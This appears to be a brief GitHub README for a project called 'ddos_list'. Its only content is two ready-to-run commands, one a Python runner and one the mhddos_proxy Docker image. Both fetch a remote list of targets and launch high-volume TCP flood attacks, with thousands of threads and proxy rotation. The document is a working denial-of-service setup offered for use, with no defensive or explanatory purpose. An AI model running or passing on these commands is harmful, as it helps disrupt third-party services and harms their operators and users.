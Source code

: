 # ddos_list
python3 runner.py  -c https://raw.githubusercontent.com/olamor/ddos_list/main/tcp_l4_all.lst -t 2000 --rpc 1000 -p 350

docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest  -c https://raw.githubusercontent.com/olamor/ddos_list/main/tcp_l4_all.lst -t 2000 --rpc 1000 -p 350
